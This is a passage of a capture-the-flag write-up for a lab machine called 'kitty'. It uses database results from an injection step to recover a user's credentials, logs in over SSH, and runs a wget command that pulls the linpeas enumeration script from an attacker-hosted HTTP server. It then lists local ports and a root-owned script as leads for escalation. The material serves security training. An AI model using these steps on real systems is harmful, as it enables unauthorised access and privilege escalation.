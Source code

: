 Results :
- Columns name of `[TABLE_NAME]` : `id,password,username,created_at`
- Users info : `1,kitty,[REDACTED_PASS],2,aaaa,aaaaaa`

In the users info, we can see two accounts, the kitty's account
and one we created to test the register form.

Now that we have kitty's password, we can test it in SSH.

## Initial Access And Enumeration Through SSH

we can log with the credentials we found.

We are the user `kitty` and we are in `/home/kitty`. We have
access to the `user.txt` file. The home of `kitty` contains nothing
interesting.

We import the [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) enumeration script using a python http server on our attack machine.

On the attack machine :
```
+--> python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On the kitty's machine :
```
kitty@kitty:~$ cd /tmp && wget [ATTACK_MACHIN_IP]:8000/linpeas.sh
```

After a quick enumeration (manual and linpeas),
we can see a few things :
- There is other web content stored in `/var/www/development/`
  instead of `/var/www/html`
- There are few localhost port occupied :
  ```
  kitty@kitty:~$ ss -lntp
  State     Recv-Q    Send-Q        Local Address:Port          Peer Address:Port    Process
  LISTEN    0         151               127.0.0.1:3306               0.0.0.0:*
  LISTEN    0         511               127.0.0.1:8080               0.0.0.0:*
  LISTEN    0         4096          127.0.0.53%lo:53                 0.0.0.0:*
  LISTEN    0         128                 0.0.0.0:22                 0.0.0.0:*
  LISTEN    0         70                127.0.0.1:33060              0.0.0.0:*
  LISTEN    0         511                       *:80                       *:*
  LISTEN    0         128                    [::]:22                    [::]:*
  ```

  The interesting port is `8080` since we already know the others
  (HTTP(`80`), MySQL (`3306`,`33060`), SSH (`22`) and DNS (`53`))
- The `/opt` directory isn't empty and contains a script that
  belongs to `root` (**remember that**):
  ```
  kitty@kitty:~$ ls -la /opt
  total 12
  drwxr-xr-x  2 root root 4096 Feb 25  2023 .
  drwxr-xr-x 19 root root 4096 Nov  8  2022 ..
  -rw-r--r--  1 root root  152 Feb 25  2023 log_checker.sh
  ```

